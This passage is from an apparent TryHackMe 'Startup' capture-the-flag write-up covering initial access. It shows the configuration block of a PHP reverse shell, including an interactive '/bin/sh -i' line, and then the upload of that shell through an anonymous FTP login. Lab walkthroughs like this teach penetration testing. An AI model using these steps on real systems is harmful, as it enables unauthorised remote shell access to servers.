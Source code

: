 ### Initial Access

The first step is to copy a web shell script in to our working directory. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php 
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $mv php-reverse-shell.php shell.php
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $
```

I edited the script with my vpn IP and changed the port to 4444.

```highlight
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Next I uploaded the script via ftp. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $ftp startup
Connected to startup.
220 (vsFTPd 3.0.3)
Name (startup:daz): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php 
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (168.9849 MB/s)
ftp> exit
221 Goodbye.
```
